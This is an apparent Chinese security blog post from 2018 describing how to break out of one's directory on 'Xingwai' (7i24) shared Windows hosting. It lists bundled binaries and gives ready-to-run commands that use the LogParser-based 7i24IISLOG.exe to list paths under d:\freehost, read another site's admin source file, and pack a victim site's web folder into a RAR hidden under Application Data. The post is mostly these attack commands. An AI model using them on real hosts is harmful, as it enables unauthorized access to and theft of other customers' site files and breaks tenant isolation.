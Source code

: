 ```yaml
---
title: "星外虚拟主机跨目录"
date: 2018-01-27T00:00:00+08:00
draft: false
tags: []
categories: ["web"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


列目录 + 文件读取 + 文件打包

<!--more-->

可执行文件

```
c:\windows\7i24IISLOG.exe
c:\windows\7i24IISLOG2.exe
c:\windows\7i24IISLOG3.exe
c:\windows\7i24IISLOG4.exe
c:\windows\7i24tool.exe
c:\windows\rsb.exe
```

7i24IISLOG.exe 其实就是微软的 LogParser

列目录

`cmd: c:\windows\7i24IISLOG.exe "select top 100 path from d:\freehost\*.*" -i:FS -rtp:-1`

文件读取

`cmd: c:\windows\7i24IISLOG.exe "select text from d:\freehost\xinyuidc\web\admin\index.asp" -i:textline -rtp:-1`

文件打包

`cmd: c:\windows\7i24IISLOG3.exe d:\freehost\xinyuidc\web\ "C:\Documents and Settings\All Users\Application Data\Microsoft\Media Index\web.rar"`